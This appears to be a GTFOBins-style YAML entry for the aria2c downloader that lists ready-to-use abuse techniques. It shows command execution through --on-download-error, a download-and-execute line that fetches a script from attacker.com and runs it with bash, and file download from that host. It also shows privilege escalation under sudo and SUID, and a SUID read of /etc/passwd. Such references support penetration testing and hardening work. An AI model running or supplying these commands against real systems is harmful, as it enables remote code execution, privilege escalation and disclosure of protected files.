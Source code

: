 ```yaml
---
description: Note that the subprocess is immediately sent to the background.
functions:
  command:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        aria2c --on-download-error=$TF http://x
    - description: The remote file `aaaaaaaaaaaaaaaa` (must be a string of 16 hex digit) contains the shell script. Note that said file needs to be written on disk in order to be executed. `--allow-overwrite` is needed if this is executed multiple times with the same GID.
      code: aria2c --allow-overwrite --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa
  file-download:
    - description: Fetch a remote file via HTTP GET request. Use `--allow-overwrite` if needed.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        aria2c -o "$LFILE" "$URL"
  sudo:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo aria2c --on-download-error=$TF http://x
  suid:
   - description: It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.
   - code: |
        LFILE='/etc/passwd'
        aria2c -i $LFILE
  limited-suid:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        ./aria2c --on-download-error=$TF http://x
---
```

